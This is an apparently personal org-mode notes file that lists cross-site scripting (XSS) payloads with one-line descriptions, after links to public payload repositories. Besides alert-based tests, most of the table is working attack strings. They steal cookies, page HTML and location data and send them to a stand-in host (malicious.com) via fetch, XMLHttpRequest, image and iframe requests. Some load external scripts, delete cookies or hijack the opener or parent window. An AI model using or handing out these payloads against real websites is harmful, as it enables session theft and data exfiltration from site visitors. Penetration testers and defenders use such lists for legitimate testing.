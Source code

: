 #+title: Xss Payload List
#+author: gabriel

* Common XSS Payload List

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS
https://github.com/payloadbox/xss-payload-list
https://github.com/s0md3v/AwesomeXSS
https://github.com/pgaijin66/XSS-Payloads


Some XSS payloads may be blocked by security systems, or the payloads sent may not work due to the structure of the target system

In such cases, different payloads with varying functionalities can be used.

| Payload	Description
<script>alert('XSS')</script>	Displays a simple alert box, verifying that XSS is working.
<script>alert(document.cookie)</script>	Shows the user's cookie information.
<script>alert(document.domain)</script>	Displays the domain information of the page.
<img src="x" onerror="alert('XSS')">	Executes the alert function due to a failed image load.
<svg/onload=alert('XSS')>	Executes the alert function when an SVG graphic loads.
"><script>alert('XSS')</script>	Executes a script within an unclosed HTML tag.
<body onload=alert('XSS')>	Executes a script when the body tag loads.
<iframe src="javascript:alert('XSS')">	Runs JavaScript code within an iframe.
<input type="text" value="<script>alert('XSS')</script>">	Injects a script into an input field.
javascript:alert('XSS')	Directly executes JavaScript code through a link.
onmouseover="alert('XSS')"	Executes a script when the mouse hovers over an element.
"><iframe src="javascript:alert('XSS')"></iframe>	Runs malicious JavaScript within an iframe.
<script src="http://example.com/malicious-code.js"></script>	Loads and executes an external JavaScript file.
"><img src="javascript:alert('XSS')">	Executes JavaScript code through an image element.
<div style="background:url('javascript:alert('XSS')')"></div>	Executes JavaScript code within CSS.
<script>document.write('<img src="x" onerror="alert('XSS')">')</script>	Writes a script onto the document and executes XSS.
<a href="javascript:alert('XSS')">Click me!</a>	Executes JavaScript code when the user clicks the link.
<embed src="javascript:alert('XSS')">	Executes JavaScript code with an embed tag.
<object data="javascript:alert('XSS')">	Executes JavaScript code with an object tag.
<style>@import 'javascript:alert("XSS")';</style>	Executes JavaScript within a style definition.
"><style>@import 'javascript:alert("XSS")';</style>	Executes XSS within a style definition inside an unclosed HTML tag.
<script>fetch("http://malicious.com/?cookie="+document.cookie)</script>	Steals the user's cookies and sends them to the specified site.
<script>document.location='http://malicious.com/?cookie=' + document.cookie;</script>	Steals user cookies and sends them to the specified site.
<script>new Image().src='http://malicious.com/?data=' + document.domain;</script>	Steals the user's domain information and sends it to the specified site.
<script>new Image().src='http://malicious.com/?data=' + encodeURIComponent(document.body.innerHTML);</script>	Steals the page's HTML content and sends it to the specified site.
<script>fetch('https://malicious.com', { method: 'POST', body: JSON.stringify({cookie: document.cookie, location: document.location}) });</script>	Sends sensitive information such as cookies and URL details to the specified site.
<script>document.cookie='username=; expires=Thu, 01 Jan 1970 00:00:01 GMT;';</script>	Deletes the user's cookies.
<script>document.domain='malicious.com';</script>	Changes the domain of the page, potentially affecting security policies.
"><script>document.location='http://malicious.com?cookie=' + document.cookie;</script>	Sends cookie information to an external server.
"><script>document.location='javascript:alert(document.cookie)';</script>	Displays user cookie information in an alert.
"><script>document.location='javascript:alert(document.domain)';</script>	Displays domain information in an alert.
<script>xhr=new XMLHttpRequest();xhr.open('GET','https://malicious.com?cookie='+document.cookie,true);xhr.send();</script>	Sends cookie information to a server using AJAX.
<script>xhr=new XMLHttpRequest();xhr.open('GET','https://malicious.com?data='+document.domain,true);xhr.send();</script>	Sends domain information to a server using AJAX.
<script>var img=document.createElement('img');img.src='https://malicious.com?cookie='+document.cookie;document.body.appendChild(img);</script>	Steals cookie information through an image request.
<script>var img=document.createElement('img');img.src='https://malicious.com?data='+document.domain;document.body.appendChild(img);</script>	Steals domain information through an image request.
<script>document.write('<iframe src="http://malicious.com?cookie=' + document.cookie + '"></iframe>');</script>	Creates and sends an iframe containing cookie information.
<script>document.write('<iframe src="http://malicious.com?data=' + document.domain + '"></iframe>');</script>	Creates and sends an iframe containing domain information.
<script>localStorage.setItem('data', document.cookie);</script>	Saves cookie information to local storage.
<script>sessionStorage.setItem('data', document.domain);</script>	Saves domain information to session storage.
<script>top.location=document.referrer;</script>	Redirects the page source to the top frame.
<script>window.opener.location='http://malicious.com';</script>	Redirects the main page of a newly opened window to a malicious site.
<script>window.parent.location='http://malicious.com';</script>	Redirects the parent window to a malicious site.
